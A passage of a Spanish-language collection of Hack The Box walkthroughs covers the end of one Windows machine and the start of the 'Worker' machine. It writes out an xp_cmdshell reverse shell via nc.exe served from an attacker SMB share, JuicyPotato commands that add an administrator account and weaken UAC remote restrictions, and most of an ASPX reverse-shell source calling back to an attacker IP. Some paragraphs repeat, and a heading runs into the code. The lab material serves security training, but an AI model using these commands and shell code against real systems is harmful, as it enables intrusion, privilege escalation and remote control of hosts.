\begin{quote}
{[} ! {]}NOTAS: tambien se podria usar el commando \texttt{impacker-mssqlclient\ WORKGROUP/sa@10.10.10.59} y con este commando no tendriamos que darle siempre a go.
\end{quote}

Como tenemos possiblidad de ejecutar commandos a nivel de systema, nos vamos a connectar a la maquina.

\hypertarget{vuln-exploit-gaining-access-17}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-17}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-ms-sql}{%
\subsection*{Ganando accesso con MS-SQL}\label{ganando-accesso-con-ms-sql}}
\addcontentsline{toc}{subsection}{Ganando accesso con MS-SQL}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos el binario nc.exe

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ nc.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/sqlninja/apps/nc.exe .}
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support}
\end{Highlighting}
\end{Shaded}
\item
  Desde el ms-sql

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{xp_cmdshell} \StringTok{"}\DataTypeTok{\textbackslash{}\textbackslash{}}\StringTok{10.10.14.7\textbackslash{}smbFolder\textbackslash{}nc.exe -e cmd 10.10.14.7 443"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya hemos ganado accesso al systema como el usuario Sarah y podemos ver la flag

\hypertarget{privilege-escalation-15}{%
\section*{Privilege Escalation}\label{privilege-escalation-15}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-24}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-24}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{systeminfo}
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

Aqui vemos que tenemos el \texttt{SeImpersonatePrivilege} ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/sqlninja/apps/nc.exe}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

En la maquina victima lo descargamos

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\FunctionTok{mkdir}\NormalTok{ privesc}
\BuiltInTok{cd}\NormalTok{ privesc}
\ExtensionTok{iwr}\NormalTok{ -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe}
\end{Highlighting}
\end{Shaded}

Nos creamos un nuevo usuario con el JuicyPotato.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c net user s4vitar s4vitar1234}\VariableTok{$!}\StringTok{ /add"}
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c net localgroup Administrators s4vitar /add"}
\end{Highlighting}
\end{Shaded}

Si comprobamos con el commando \texttt{crackmapexec\ smb\ 10.10.10.59\ -u\ \textquotesingle{}s4vitar\textquotesingle{}\ -p\ \textquotesingle{}s4vitar1234\$!\textquotesingle{}} Vemos que el usuario no esta pwned.
Aqui tenemos que

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c net share attacker_folder=C:\textbackslash{}Windows\textbackslash{}Temp /GRANT:Administrators,FULL"}
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c reg add HKLM\textbackslash{}Software\textbackslash{}Microsoft\textbackslash{}CurrentVersion\textbackslash{}Policies\textbackslash{}System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"}
\end{Highlighting}
\end{Shaded}

Si comprobamos otra vez con crackmapexec, vemos ahora que el usuario s4vitar esta pwned.
Ya nos podemos connectar con psexec

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-psexec}\NormalTok{ WORKGROUP/s4vitar@10.10.10.59 cmd.exe}
\ExtensionTok{Password}\NormalTok{: s4vitar1234}\VariableTok{$!}

\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{nt}\NormalTok{ authority\textbackslash{}system}

\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Users\textbackslash{}Adminstrator\textbackslash{}Desktop}
\FunctionTok{dir}
\BuiltInTok{type}\NormalTok{ hm.txt}
\end{Highlighting}
\end{Shaded}

Aqui nos dice que la flag no esta aqui. Pensamos a Alternative Data Streams.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{dir}\NormalTok{ /r}
\FunctionTok{more} \OperatorTok{<}\NormalTok{ hm.txt:root.txt}
\end{Highlighting}
\end{Shaded}

;)

\hypertarget{worker}{%
\chapter*{Worker}\label{worker}}
\addcontentsline{toc}{chapter}{Worker}

\hypertarget{introduccion-31}{%
\section*{Introduccion}\label{introduccion-31}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 23/08/2021 se llama Worker.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=PEth2wravLQ}{\includegraphics{https://img.youtube.com/vi/PEth2wravLQ/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-31}{%
\section*{Enumeracion}\label{enumeracion-31}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-31}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-31}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-31}{%
\subsubsection*{Ping}\label{ping-31}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.203}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-31}{%
\subsubsection*{Nmap}\label{nmap-31}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.203}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.203 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,3690,5985 10.10.10.203 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, Fuzzing &\tabularnewline
3690 & svnserve & &\tabularnewline
5985 & WinRM & evil-winrm & credenciales\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-16}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-16}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-24}{%
\subsubsection*{Whatweb}\label{whatweb-24}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.203}
\end{Highlighting}
\end{Shaded}

Nos enfrentamos a un Microsoft IIS 10.0

\hypertarget{analyzando-svnserve}{%
\subsection*{Analyzando svnserve}\label{analyzando-svnserve}}
\addcontentsline{toc}{subsection}{Analyzando svnserve}

La primera cosa que hay que hacer es buscar en internet lo que svn es. Tambien vamos buscando si es possible enumerar
un servicio svn.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{which}\NormalTok{ svn}
\FunctionTok{svn}\NormalTok{ -h}
\FunctionTok{svn}\NormalTok{ checkout svn://10.10.10.203}
\end{Highlighting}
\end{Shaded}

Aqui vemos que nos a cargado dos ficheros, como uno de ellos se llama \texttt{dimension.worker.htb} pensamos que se esta aplicando virtual hosting. En el
fichero \texttt{moved.txt} vemos a demas otro dominio.
Añadimos al \texttt{/etc/hosts} los dominios \texttt{worker.htb\ dimension.worker.htb\ devops.worker.htb}.

\hypertarget{analyzando-la-web-con-firefox-6}{%
\subsection*{Analyzando la web con Firefox}\label{analyzando-la-web-con-firefox-6}}
\addcontentsline{toc}{subsection}{Analyzando la web con Firefox}

Entramos en el panel IIS por defecto. Si lanzamos \texttt{http://worker.htb} sigue siendo lo mismo. Si le damos a \texttt{http://dimension.worker.htb} entramos
a una nueva web y si vamos al url \texttt{http://devops.worker.htb} hay un panel de session.

Aqui necessitamos credenciales, tenemos que volver al analysis de \textbf{svnserve} para ver si encontramos mas cosas

\hypertarget{siguiendo-el-analysis-svnserve}{%
\subsection*{Siguiendo el analysis svnserve}\label{siguiendo-el-analysis-svnserve}}
\addcontentsline{toc}{subsection}{Siguiendo el analysis svnserve}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{svn}\NormalTok{ checkout --help}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hay un parametro de revision que por defecto esta a 1, miramos que pasa cuando le damos a 2

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{svn}\NormalTok{ checkout -r 2 svn://10.10.10.203}
\FunctionTok{cat}\NormalTok{ deploy.ps1}
\end{Highlighting}
\end{Shaded}

Vemos algo nuevo, un fichero \texttt{deploy.ps1} y ya nos lo a descargado. Aqui ya vemos credenciales.

Intentamos connectar con \textbf{evil-winrm} pero no podemos. Vamos a por el panel de session de \texttt{http://devops.worker.htb} y aqui ya hemos podido
arrancar session. Es un Azure DevOps.

\hypertarget{vulnerar-un-azur-devops}{%
\subsection*{Vulnerar un Azur DevOps}\label{vulnerar-un-azur-devops}}
\addcontentsline{toc}{subsection}{Vulnerar un Azur DevOps}

Si navigamos en la web podemos ver multiples repositorios.

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Worker-repos} \caption{Azure DevOps repositories}\label{fig:unnamed-chunk-58}
\end{figure}

Lo que nos llama la atencion aqui es el echo que hay un repositorio llamado dimension, y como existe un dominio \texttt{dimension.worker.htb}, pensamos que
los repositorios corresponden a proyectos relacionados con subdominios. Si añadimos el subdominio \texttt{alpha.worker.htb} en el \texttt{/ect/hosts} y que miramos con
el firefox a esta url vemos el proyecto.

Si analysamos mas el proyecto, vemos que no podemos alterar el proyecto en la rama Master, y vemos que hay Pipelines que se lanzan automaticamente. Analysando
el script de la Pipeline, vemos que no esta atada a la rama master.

Creamos una rama al proyecto y le ponemos nuestro codigo malicioso copiada del github de \href{https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx}{borjmz aspx reverse shell}

\hypertarget{vulnerability-assessment-18}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-18}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

Si navigamos en la web podemos ver multiples repositorios.

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Worker-repos} \caption{Azure DevOps repositories}\label{fig:unnamed-chunk-59}
\end{figure}

Lo que nos llama la atencion aqui es el echo que hay un repositorio llamado dimension, y como existe un dominio \texttt{dimension.worker.htb}, pensamos que
los repositorios corresponden a proyectos relacionados con subdominios. Si añadimos el subdominio \texttt{alpha.worker.htb} en el \texttt{/ect/hosts} y que miramos con
el firefox a esta url vemos el proyecto.

Si analysamos mas el proyecto, vemos que no podemos alterar el proyecto en la rama Master, y vemos que hay Pipelines que se lanzan automaticamente. Analysando
el script de la Pipeline, vemos que no esta atada a la rama master.

Creamos una rama al proyecto y le vamos a poner un codigo malicioso.

\hypertarget{vuln-exploit-gaining-access-18}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-18}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-azure-devops}\NormalTok{@ Page Language=}\StringTok{"C#"} \KeywordTok\NormalTok{@ Import Namespace=}\StringTok{"System.Runtime.InteropServices"} \KeywordTok\NormalTok{@ Import Namespace=}\StringTok{"System.Net"} \KeywordTok\NormalTok{@ Import Namespace=}\StringTok{"System.Net.Sockets"} \KeywordTok\NormalTok{@ Import Namespace=}\StringTok{"System.Security.Principal"} \KeywordTok\NormalTok{@ Import Namespace=}\StringTok{"System.Data.SqlClient"} \KeywordTok{%>}
\KeywordTok{<script }\NormalTok{runat=}\StringTok{"server"}\NormalTok{>}
\CommentTok{//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/}
\CommentTok{//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip}
    
\NormalTok{    protected void Page_Load}\OtherTok{(}\NormalTok{object sender}\OtherTok{,}\NormalTok{ EventArgs e}\OtherTok{)}
\NormalTok{    \{}
        \FunctionTok{String}\NormalTok{ host = }\StringTok{"10.10.14.7"}\OtherTok{;} \CommentTok{//CHANGE THIS}
            \FunctionTok{int}\NormalTok{ port = }\DecValTok{443}\OtherTok{;} \CommentTok{////CHANGE THIS}
                
\NormalTok{        CallbackShell}\OtherTok{(}\NormalTok{host}\OtherTok{,}\NormalTok{ port}\OtherTok{);}
\NormalTok{    \}}

    \OtherTok{[}\NormalTok{StructLayout}\OtherTok{(}\NormalTok{LayoutKind.Sequential}\OtherTok{)]}
    \KeywordTok{public}\NormalTok{ struct STARTUPINFO}
\NormalTok{    \{}
        \KeywordTok{public} \FunctionTok{int}\NormalTok{ cb}\OtherTok{;}
        \KeywordTok{public} \FunctionTok{String}\NormalTok{ lpReserved}\OtherTok{;}
        \KeywordTok{public} \FunctionTok{String}\NormalTok{ lpDesktop}\OtherTok{;}
        \KeywordTok{public} \FunctionTok{String}\NormalTok{ lpTitle}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwX}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwY}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwXSize}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwYSize}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwXCountChars}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwYCountChars}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwFillAttribute}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwFlags}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ short wShowWindow}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ short cbReserved2}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ IntPtr lpReserved2}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ IntPtr hStdInput}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ IntPtr hStdOutput}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ IntPtr hStdError}\OtherTok{;}
\NormalTok{    \}}

    \OtherTok{[}\NormalTok{StructLayout}\OtherTok{(}\NormalTok{LayoutKind.Sequential}\OtherTok{)]}
    \KeywordTok{public}\NormalTok{ struct PROCESS_INFORMATION}
\NormalTok{    \{}
        \KeywordTok{public}\NormalTok{ IntPtr hProcess}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ IntPtr hThread}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwProcessId}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ uint dwThreadId}\OtherTok{;}
\NormalTok{    \}}

    \OtherTok{[}\NormalTok{StructLayout}\OtherTok{(}\NormalTok{LayoutKind.Sequential}\OtherTok{)]}
    \KeywordTok{public}\NormalTok{ struct SECURITY_ATTRIBUTES}
\NormalTok{    \{}
        \KeywordTok{public} \FunctionTok{int}\NormalTok{ Length}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ IntPtr lpSecurityDescriptor}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ bool bInheritHandle}\OtherTok{;}
\NormalTok{    \}}
    
    
    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{)]}
\NormalTok{    static extern bool CreateProcess}\OtherTok{(}\FunctionTok{string}\NormalTok{ lpApplicationName}\OtherTok{,}
       \FunctionTok{string}\NormalTok{ lpCommandLine}\OtherTok{,}\NormalTok{ ref SECURITY_ATTRIBUTES lpProcessAttributes}\OtherTok{,}
\NormalTok{       ref SECURITY_ATTRIBUTES lpThreadAttributes}\OtherTok{,}\NormalTok{ bool bInheritHandles}\OtherTok{,}
\NormalTok{       uint dwCreationFlags}\OtherTok{,}\NormalTok{ IntPtr lpEnvironment}\OtherTok{,} \FunctionTok{string}\NormalTok{ lpCurrentDirectory}\OtherTok{,}
       \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ ref STARTUPINFO lpStartupInfo}\OtherTok{,}
\NormalTok{       out PROCESS_INFORMATION lpProcessInformation}\OtherTok{);}

    \KeywordTok{public}\NormalTok{ static uint INFINITE = }\BaseNTok{0xFFFFFFFF}\OtherTok{;}
    
    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{,}\NormalTok{ ExactSpelling = }\KeywordTok{true}\OtherTok{)]}
\NormalTok{    internal static extern Int32 WaitForSingleObject}\OtherTok{(}\NormalTok{IntPtr handle}\OtherTok{,}\NormalTok{ Int32 milliseconds}\OtherTok{);}

\NormalTok{    internal struct sockaddr_in}
\NormalTok{    \{}
        \KeywordTok{public}\NormalTok{ short sin_family}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ short sin_port}\OtherTok{;}
        \KeywordTok{public} \FunctionTok{int}\NormalTok{ sin_addr}\OtherTok{;}
        \KeywordTok{public}\NormalTok{ long sin_zero}\OtherTok{;}
\NormalTok{    \}}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{)]}
\NormalTok{    static extern IntPtr GetStdHandle}\OtherTok{(}\FunctionTok{int}\NormalTok{ nStdHandle}\OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{)]}
\NormalTok{    static extern bool SetStdHandle}\OtherTok{(}\FunctionTok{int}\NormalTok{ nStdHandle}\OtherTok{,}\NormalTok{ IntPtr hHandle}\OtherTok{);}

    \KeywordTok{public} \KeywordTok{const} \FunctionTok{int}\NormalTok{ STD_INPUT_HANDLE = }\DecValTok{-10}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const} \FunctionTok{int}\NormalTok{ STD_OUTPUT_HANDLE = }\DecValTok{-11}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const} \FunctionTok{int}\NormalTok{ STD_ERROR_HANDLE = }\DecValTok{-12}\OtherTok{;}
    
    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32"}\OtherTok{)]}
\NormalTok{    static extern bool AllocConsole}\OtherTok{();}


    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"WS2_32.dll"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Ansi}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
\NormalTok{    internal static extern IntPtr WSASocket}\OtherTok{([}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ AddressFamily addressFamily}\OtherTok{,}
                                            \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ SocketType socketType}\OtherTok{,}
                                            \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ ProtocolType protocolType}\OtherTok{,}
                                            \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ IntPtr protocolInfo}\OtherTok{,} 
                                            \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ uint group}\OtherTok{,}
                                            \OtherTok{[}\ControlFlowTok{In}\OtherTok{]} \FunctionTok{int}\NormalTok{ flags}
                                            \OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"WS2_32.dll"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Ansi}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
\NormalTok{    internal static extern }\FunctionTok{int}\NormalTok{ inet_addr}\OtherTok{([}\ControlFlowTok{In}\OtherTok{]} \FunctionTok{string}\NormalTok{ cp}\OtherTok{);}
    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"ws2_32.dll"}\OtherTok{)]}
    \KeywordTok{private}\NormalTok{ static extern }\FunctionTok{string}\NormalTok{ inet_ntoa}\OtherTok{(}\NormalTok{uint ip}\OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"ws2_32.dll"}\OtherTok{)]}
    \KeywordTok{private}\NormalTok{ static extern uint htonl}\OtherTok{(}\NormalTok{uint ip}\OtherTok{);}
    
    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"ws2_32.dll"}\OtherTok{)]}
    \KeywordTok{private}\NormalTok{ static extern uint ntohl}\OtherTok{(}\NormalTok{uint ip}\OtherTok{);}
    
    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"ws2_32.dll"}\OtherTok{)]}
    \KeywordTok{private}\NormalTok{ static extern ushort htons}\OtherTok{(}\NormalTok{ushort ip}\OtherTok{);}
    
    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"ws2_32.dll"}\OtherTok{)]}
    \KeywordTok{private}\NormalTok{ static extern ushort ntohs}\OtherTok{(}\NormalTok{ushort ip}\OtherTok{);}   

    
   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"WS2_32.dll"}\OtherTok{,}\NormalTok{ CharSet=CharSet.Ansi}\OtherTok{,}\NormalTok{ SetLastError=}\KeywordTok{true}\OtherTok{)]}
\NormalTok{   internal static extern }\FunctionTok{int}\NormalTok{ connect}\OtherTok{([}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ IntPtr socketHandle}\OtherTok{,[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ ref sockaddr_in socketAddress}\OtherTok{,[}\ControlFlowTok{In}\OtherTok{]} \FunctionTok{int}\NormalTok{ socketAddressSize}\OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"WS2_32.dll"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Ansi}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
\NormalTok{   internal static extern }\FunctionTok{int}\NormalTok{ send}\OtherTok{(}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ IntPtr socketHandle}\OtherTok{,}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ byte}\OtherTok{[]}\NormalTok{ pinnedBuffer}\OtherTok{,}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]} \FunctionTok{int} \FunctionTok{len}\OtherTok{,}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ SocketFlags socketFlags}
                                \OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"WS2_32.dll"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Ansi}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
\NormalTok{   internal static extern }\FunctionTok{int}\NormalTok{ recv}\OtherTok{(}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ IntPtr socketHandle}\OtherTok{,}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ IntPtr pinnedBuffer}\OtherTok{,}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]} \FunctionTok{int} \FunctionTok{len}\OtherTok{,}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ SocketFlags socketFlags}
                                \OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"WS2_32.dll"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Ansi}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
\NormalTok{   internal static extern }\FunctionTok{int}\NormalTok{ closesocket}\OtherTok{(}
                                       \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ IntPtr socketHandle}
                                       \OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"WS2_32.dll"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Ansi}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
\NormalTok{   internal static extern IntPtr accept}\OtherTok{(}
                                  \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ IntPtr socketHandle}\OtherTok{,}
                                  \OtherTok{[}\ControlFlowTok{In}\OtherTok{,}\NormalTok{ Out}\OtherTok{]}\NormalTok{ ref sockaddr_in socketAddress}\OtherTok{,}
                                  \OtherTok{[}\ControlFlowTok{In}\OtherTok{,}\NormalTok{ Out}\OtherTok{]}\NormalTok{ ref }\FunctionTok{int}\NormalTok{ socketAddressSize}
                                  \OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"WS2_32.dll"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Ansi}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
\NormalTok{   internal static extern }\FunctionTok{int}\NormalTok{ listen}\OtherTok{(}
                                  \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ IntPtr socketHandle}\OtherTok{,}
                                  \OtherTok{[}\ControlFlowTok{In}\OtherTok{]} \FunctionTok{int}\NormalTok{ backlog}
                                  \OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"WS2_32.dll"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Ansi}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
\NormalTok{   internal static extern }\FunctionTok{int}\NormalTok{ bind}\OtherTok{(}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ IntPtr socketHandle}\OtherTok{,}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]}\NormalTok{ ref sockaddr_in  socketAddress}\OtherTok{,}
                                \OtherTok{[}\ControlFlowTok{In}\OtherTok{]} \FunctionTok{int}\NormalTok{ socketAddressSize}
                                \OtherTok{);}


   \KeywordTok{public}\NormalTok{ enum TOKEN_INFORMATION_CLASS}
\NormalTok{   \{}
\NormalTok{       TokenUser = }\DecValTok{1}\OtherTok{,}
\NormalTok{       TokenGroups}\OtherTok{,}
\NormalTok{       TokenPrivileges}\OtherTok{,}
\NormalTok{       TokenOwner}\OtherTok{,}
\NormalTok{       TokenPrimaryGroup}\OtherTok{,}
\NormalTok{       TokenDefaultDacl}\OtherTok{,}
\NormalTok{       TokenSource}\OtherTok{,}
\NormalTok{       TokenType}\OtherTok{,}
\NormalTok{       TokenImpersonationLevel}\OtherTok{,}
\NormalTok{       TokenStatistics}\OtherTok{,}
\NormalTok{       TokenRestrictedSids}\OtherTok{,}
\NormalTok{       TokenSessionId}
\NormalTok{   \}}

   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"advapi32"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Auto}\OtherTok{)]}
   \KeywordTok{public}\NormalTok{ static extern bool GetTokenInformation}\OtherTok{(}
\NormalTok{       IntPtr hToken}\OtherTok{,}
\NormalTok{       TOKEN_INFORMATION_CLASS tokenInfoClass}\OtherTok{,}
\NormalTok{       IntPtr TokenInformation}\OtherTok{,}
       \FunctionTok{int}\NormalTok{ tokeInfoLength}\OtherTok{,}
\NormalTok{       ref }\FunctionTok{int}\NormalTok{ reqLength}\OtherTok{);}

   \KeywordTok{public}\NormalTok{ enum TOKEN_TYPE}
\NormalTok{   \{}
\NormalTok{       TokenPrimary = }\DecValTok{1}\OtherTok{,}
\NormalTok{       TokenImpersonation}
\NormalTok{   \}}

   \KeywordTok{public}\NormalTok{ enum SECURITY_IMPERSONATION_LEVEL}
\NormalTok{   \{}
\NormalTok{       SecurityAnonymous}\OtherTok{,}
\NormalTok{       SecurityIdentification}\OtherTok{,}
\NormalTok{       SecurityImpersonation}\OtherTok{,}
\NormalTok{       SecurityDelegation}
\NormalTok{   \}}

   
